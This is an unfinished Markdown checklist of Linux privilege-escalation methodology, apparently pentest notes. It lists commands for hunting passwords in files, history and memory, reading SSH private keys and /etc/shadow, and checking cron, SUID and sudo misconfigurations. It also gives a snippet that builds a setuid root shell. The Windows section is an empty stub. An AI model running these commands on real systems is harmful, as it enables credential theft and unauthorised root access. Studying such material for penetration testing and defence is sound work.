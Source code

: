 # Privilege Escalation Methodology👽
## ON-GO
"**Slow is smooth, and smooth is fast**"
Be methodical in what you do.
So you're inside the system and you wanna pop that damn root shell? Calm down as you have to go deeper into the target.

We think that the mind map provived by Conda (please, go support him on his YouTube channel) is very useful and straightforward. So, we've decided to translate it into this checklist.
You can find the mindmap created with Obsidian by us here ![[linux_privesc_mindmap.png]] and the Conda's original one (That is better in term of design) here. Go check his playlist on YouTube!, you can find the link under the PrivEsc section inside README.MD ([[README#PrivEsc]])

## Linux
### Credential Access
- [ ] Try known passwords
- [ ] Search creds from config files (Try different word other the PASSWORD, e.g: pass, passwd, pwd, user, usr, username, secret, cred, credential, auth):
> grep \--color\=auto \-rnw '/' \-ie "PASSWORD" \--color\=always 2> /dev/null
> find . \-type f \-exec grep \-i \-I "PASSWORD" {} /dev/null
> locate password | more
- [ ] Search creds from local DBs:
- [ ] Search creds from bash history:
> history
> cat ~/.bash_history
- [ ] Search creds from memory:
> strings /dev/mem \-n10 | grep \-i PASS
- [ ] SSH keys:
> cat ~/.ssh/id_rsa
> ls ~/.ssh/\*
> find / -name authorized_keys 2> /dev/null
> find / -name id_rsa 2> /dev/null
- [ ] Sudo privileges:
> sudo -l
- [ ] Group privileges:
> id
> groups

### Exploit
- [ ] Services running on localhost are vulnerable?
> ps aux
> ps aux | grep root
- [ ] Kernel version, vulnerable?
> uname -a
> (cat /proc/version || uname -a ) 2>/dev/null
> lsb_release -a 2>/dev/null
- [ ] Binary file versions, vulnerable?
> ff

### Misconfiguration
- [ ] Cron job -> check for write permissions on the following files:
> /etc/init.d
> /etc/cron\*
> /etc/crontab
> /etc/cron.allow
> /etc/cron.d 
> /etc/cron.deny
> /etc/cron.daily
> /etc/cron.hourly
> /etc/cron.monthly
> /etc/cron.weekly
> /etc/sudoers
> /etc/exports
> /etc/anacrontab
> /var/spool/cron
> /var/spool/cron/crontabs/root
> crontab \-l
> ls \-alh /var/spool/cron;
> ls \-al /etc/ | grep cron
> ls \-al /etc/cron\*
> cat /etc/cron\*
> cat /etc/at.allow
> cat /etc/at.deny
> cat /etc/cron.allow
> cat /etc/cron.deny\*
- [ ] Writeable cron job dependecy (File, Python library, etc)
- [ ] Find SUID:
> find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \\;
> find / -uid 0 -perm -4000 -type f 2>/dev/null
- [ ] Create SUID:
>
- [ ] SGID:
```bash
print 'int main(void){\\nsetresuid(0, 0, 0);\\nsystem("/bin/sh");\\n}' \> /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
- [ ] Interesting capabilities on binary:
> ff
- [ ] Any accessible sensitive file?
	- [ ] /etc/passwd
	- [ ] /etc/shadow
	- [ ] /etc/sudoers
	- [ ] Configuration files
	- [ ] /root/.ssh/id_rsa
	- [ ] entire root folder
	- [ ] Check env info
	 > (env || set) 2>/dev/null
	 > echo $PATH
- [ ] Writeable PATH
	- [ ] Root $PATH writeable
	- [ ] Directory in PATH writeable
- [ ] LD_PRELOAD set in /etc/sudoers

## Windows
### System Enumeration
- [ ] uname -a
- [ ] ca
### User Enumeration
### Network Enumeration
### Password Hunting


